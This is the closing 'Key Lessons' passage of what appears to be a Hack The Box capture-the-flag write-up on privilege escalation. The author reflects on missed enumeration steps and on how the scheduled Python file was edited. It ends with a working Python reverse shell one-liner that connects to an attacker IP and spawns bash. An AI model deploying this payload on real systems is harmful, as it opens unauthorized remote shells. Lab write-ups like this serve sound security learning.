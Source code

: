# Key Lessons

This privesc was a little messy from me. I struggled getting an interactive shell, and missed some basic enumeration like `sudo -l` and checking for scheduled processes.

I also could have handled the `.py` file editing better - [0xdf's writeup](https://0xdf.gitlab.io/2018/04/29/htb-bashed.html) involved moving the file to `.py.old` and making a new one, which would have helped in the cleanup process (and for detecting that it was being run in the first place).

I also now have a new Python reverse shell to use - `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")`